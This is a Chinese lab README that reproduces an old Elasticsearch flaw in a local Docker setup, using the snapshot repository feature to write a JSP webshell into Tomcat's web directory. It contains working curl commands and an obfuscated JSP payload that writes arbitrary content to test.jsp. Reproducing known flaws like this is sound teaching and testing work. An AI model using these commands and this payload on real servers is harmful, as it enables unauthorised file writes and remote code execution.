

# Elasticsearch写入webshell漏洞（WooYun-2015-110216）

参考文章： http://cb.drops.wiki/bugs/wooyun-2015-0110216.html

## 原理

ElasticSearch具有备份数据的功能，用户可以传入一个路径，让其将数据备份到该路径下，且文件名和后缀都可控。

所以，如果同文件系统下还跑着其他服务，如Tomcat、PHP等，我们可以利用ElasticSearch的备份功能写入一个webshell。

和CVE-2015-5531类似，该漏洞和备份仓库有关。在elasticsearch1.5.1以后，其将备份仓库的根路径限制在配置文件的配置项`path.repo`中，而且如果管理员不配置该选项，则默认不能使用该功能。即使管理员配置了该选项，web路径如果不在该目录下，也无法写入webshell。所以该漏洞影响的ElasticSearch版本是1.5.x以前。

## 测试环境

编译与启动测试环境：

```
docker-compose build
docker-compose up -d
```

简单介绍一下本测试环境。本测试环境同时运行了Tomcat和ElasticSearch，Tomcat目录在`/usr/local/tomcat`，web目录是`/usr/local/tomcat/webapps`；ElasticSearch目录在`/usr/share/elasticsearch`。

我们的目标就是利用ElasticSearch，在`/usr/local/tomcat/webapps`目录下写入我们的webshell。

## 测试流程

首先创建一个恶意索引文档：

```
curl -XPOST http://127.0.0.1:9200/yz.jsp/yz.jsp/1 -d'
{"<%new java.io.RandomAccessFile(application.getRealPath(new String(new byte[]{47,116,101,115,116,46,106,115,112})),new String(new byte[]{114,119})).write(request.getParameter(new String(new byte[]{102})).getBytes());%>":"test"}
'
```

再创建一个恶意的存储库，其中`location`的值即为我要写入的路径。

> 园长：这个Repositories的路径比较有意思，因为他可以写到可以访问到的任意地方，并且如果这个路径不存在的话会自动创建。那也就是说你可以通过文件访问协议创建任意的文件夹。这里我把这个路径指向到了tomcat的web部署目录，因为只要在这个文件夹创建目录Tomcat就会自动创建一个新的应用(文件名为wwwroot的话创建出来的应用名称就是wwwroot了)。

```
curl -XPUT 'http://127.0.0.1:9200/_snapshot/yz.jsp' -d '{
     "type": "fs",
     "settings": {
          "location": "/usr/local/tomcat/webapps/wwwroot/",
          "compress": false
     }
}'
```

存储库验证并创建:

```
curl -XPUT "http://127.0.0.1:9200/_snapshot/yz.jsp/yz.jsp" -d '{
     "indices": "yz.jsp",
     "ignore_unavailable": "true",
     "include_global_state": false
}'
```

完成！

访问`http://127.0.0.1:8080/wwwroot/indices/yz.jsp/snapshot-yz.jsp`，这就是我们写入的webshell。

该shell的作用是向wwwroot下的test.jsp文件中写入任意字符串，如：`http://127.0.0.1:8080/wwwroot/indices/yz.jsp/snapshot-yz.jsp?f=success`，我们再访问/wwwroot/test.jsp就能看到success了：

